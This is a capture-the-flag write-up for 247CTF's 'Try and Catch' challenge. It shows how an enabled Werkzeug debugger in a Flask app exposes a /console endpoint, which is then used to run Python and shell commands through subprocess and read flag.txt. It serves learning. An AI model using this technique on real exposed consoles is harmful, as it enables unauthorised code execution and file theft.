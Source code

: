 # 247CTF "Try And Catch"
A writeup for 247CTF's "Try and Catch" challenge.

This challenge is a great showcase of what can happen when a developer does not disable/remove features that were never intended to be included with production build software.

## Tools used:
- Debian 11
- Firefox ESR (for interface with the webapp)
- Atom (for easy viewing/editing of Python scripts)
- Terminator (To use Python's package installer)

## The challenge:

![challenge](https://user-images.githubusercontent.com/92492482/190871980-0840a1a9-b7f3-488b-9970-892196535845.png)

We start off in a plaintext file that is the source code for the app we will be exploiting in this challenge.
![target_app](https://user-images.githubusercontent.com/92492482/190872004-3be6a474-0c78-47e0-b9c4-ad15ed88f89f.png)

A quick glance over the source code gleans that:
- The app is written in Python.
- The app is a [Flask](https://pythonbasics.org/what-is-flask-python/) WSGI web app:
```python
from flask import Flask, request
```
- Appending /calculator to the URL will run the app instead of showing it's source:
```python
@app.route('/calculator')
```
- The app is using the [Werkzeug](https://werkzeug.palletsprojects.com/en/2.2.x/) WSGI library and the debugger for that library is turned on:
```python
from werkzeug.debug import DebuggedApplication
```
...
```python
app.wsgi_app = DebuggedApplication(app.wsgi_app, True)
```
...
```python
if __name__ == "__main__":
    app.run(debug=True)
```

We could try to mess with the input of the calculator function to get an exception, but there is error handling present and we would have to trigger an error other than a Value or Type error to get an unmanaged exception instead of the `safe_cast()` function just returning a None type object:
```python
def safe_cast(val, to_type):
    try:
        return to_type(val)
    except (ValueError, TypeError):
        return None
```

If we don't get arround the error handling, the None type object returned from `safe_cast()` will signal the `flag()` function to simply give us an error message through a return, not through the exception handler:
```python
if None in (number_1, number_2, operation) or not operation in calculate:
        return "Invalid calculator parameters"
```

Instead, we can just try to get access to the debugger and use it to help us produce an exception.

We noted earlier the debugger was left running and a quick look at this page from Werkzeug's documentation provides us with a good indicator we are on the right track:
![danger](https://user-images.githubusercontent.com/92492482/190875292-d2df541b-c99b-4b10-9db1-52c3feeb6241.png)

We want to look over Werkzeug's code to find out more about how the debugger works as the online documentation only shows ways of interaction through the source code.
We can install Werkzeug using pip:
![pip](https://user-images.githubusercontent.com/92492482/190876152-d410d797-45e5-4aa1-842f-06c416d9cf11.png)

To find out where pip has stored Werkzeug's module files we can use the Python interpreter to print out the contents of `sys.path`, which is the object Python uses to store various paths that are important to the Python installation:
![pip_werkzeug](https://user-images.githubusercontent.com/92492482/190876534-1ced9e2c-48d7-4103-aa0d-9af12cc12915.png)

We are interested in the `__init__.py` inside the debug directory:
![werkzeug_files](https://user-images.githubusercontent.com/92492482/190876779-9506f38d-f7d6-497f-a801-7e460a86e375.png)

We can see in a comment at the start of the `DebuggedApplication()` that there is a variable for a default URL path to the console:
```python
class DebuggedApplication:
    """Enables debugging support for a given application::"""
```
...
```python
""":param console_path: the URL for a general purpose console."""
```

If we scroll further down we see the `console_path` variable is by default set to `/console`:
```python
def __init__(
        self,
        app: "WSGIApplication",
        evalex: bool = False,
        request_key: str = "werkzeug.request",
        console_path: str = "/console",
        console_init_func: t.Optional[t.Callable[[], t.Dict[str, t.Any]]] = None,
        show_hidden_frames: bool = False,
        pin_security: bool = True,
        pin_logging: bool = True,
```

Appending `/console` to the end of the URL provides a Python interpreter prompt to us!
![console](https://user-images.githubusercontent.com/92492482/190878137-886d4835-8b51-4334-a8fd-c5c917657787.png)

We can use this prompt to execute Python code on the machine hosting the app.
Let's start by figuring out where we are currently in the file system and what files are in our current working directory.
We can run the `ls` command using the subprocess module, and redirect it's output to a `print()` function:
```python
import subprocess;
command = subprocess.Popen(['ls'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT);
stdout,stderr = command.communicate();
print(stdout)
```

Note that when using the above code, you can shorten it to one line as long as you keep the semi-colons in between 'lines'.

`ls` shows us there is a `flag.txt` file in our directory:
![command1](https://user-images.githubusercontent.com/92492482/190877913-ddaae118-67c9-4e12-bfc1-46df689bb660.png)


We can now open the file as text and display it using another print() function:
```python
flag = open("./flag.txt", "rt");
print(flag.read())
```

## 🥳 Flag obtained! 🎉: 
![command2](https://user-images.githubusercontent.com/92492482/190878136-996a361d-8c56-4edf-8843-d8b8233c5964.png)
